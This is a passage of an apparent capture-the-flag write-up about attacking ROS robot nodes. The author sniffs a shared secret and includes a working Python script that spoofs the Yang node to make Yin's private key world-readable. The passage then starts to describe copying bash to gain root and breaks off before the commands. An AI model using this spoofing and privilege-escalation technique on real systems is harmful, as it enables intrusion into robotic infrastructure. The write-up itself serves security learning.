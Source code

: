 Then I ran all 3 [[ROS Nodes|nodes]] at the same time, Voila! `sniffer.py` printed out the secret. From the source code of **Yin**, it was using this secret to perform an action sent by **Yang**:

```python
def handle_yang_request(self, req):
	# Check secret first
	  if req.secret != self.secret:
		  return "Secret not valid" 
```

I could now [[Spoof|spoof]] **Yang** to send actions to **Yin** using this secret.

## [[Spoof]]

### Yang

```python title=spoofyang.py
import rospy
from yin.srv import yangrequest

secret = "<secret_from_earlier>"

def send_request():
    global secret
    rospy.init_node("yang")
    rospy.wait_for_service('svc_yang')

    try:
        yang_service = rospy.ServiceProxy('svc_yang', yangrequest)
        res = yang_service(secret, "chmod 777 /catkin_ws/privatekey.pem", "yang", "yin")
        print(res)
    except Exception as e:
        print(e)
        exit()


send_request()
```

I made a simple script to spoof **Yang** and make the `.pem` file that **Yin** used accessible to everyone. Now all I had to was make a copy of the script that ran the **Yin** node and modify it to send commands I want to **Yang**.

### Yin

For spoofing **Yin** all I did was copy the script that made its node and modified it. I didn't need [[sudo]] access because I had the **secret** already and the `.pem` file was now accessible.

## Gain Root

### Yin

First, I copied `/bin/bash` into **Yin's** home folder then used the `spoofyang.py` script to execute these commands: 
